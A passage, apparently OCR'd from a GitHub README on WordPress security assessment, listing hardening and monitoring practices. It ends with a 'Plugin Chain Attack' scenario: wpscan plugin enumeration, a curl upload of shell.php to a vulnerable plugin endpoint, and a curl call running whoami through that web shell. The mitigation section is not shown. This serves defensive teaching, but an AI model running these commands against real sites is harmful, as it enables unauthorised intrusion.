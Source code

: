 ```json
  }
}
```

## 🔐 Security Best Practices Implemented

### Secrets Management
- All sensitive data in GitHub Secrets
- Environment variable injection
- No hardcoded credentials in code

### Container Security
- Non-root user execution
- Minimal base images
- Network isolation
- Volume encryption

### CI/CD Security
- Branch protection rules
- Required status checks
- Artifact retention policies
- Audit logging

## 🔄 Continuous Monitoring

### Scheduled Assessments
- **Daily scans** for critical environments
- **Weekly comprehensive** multi-version testing
- **Monthly trend analysis** and reporting

### Integration Points
- **SIEM Integration**: Forward findings to security platforms
- **Ticketing Systems**: Auto-create remediation tickets
- **Notification Channels**: Slack/Teams/Email alerts

## 🛡️ Exploitation Scenarios & Mitigation

### Scenario 1: Plugin Chain Attack
```bash
# 1. Discover vulnerable plugin
wpscan --url target.com --enumerate ap

# 2. Exploit plugin vulnerability
curl -X POST "target.com/wp-content/plugins/vulnerable-plugin/upload.php" \
  -F "file=@shell.php"

# 3. Execute commands
curl "target.com/wp-content/uploads/shell.php?cmd=whoami"
```
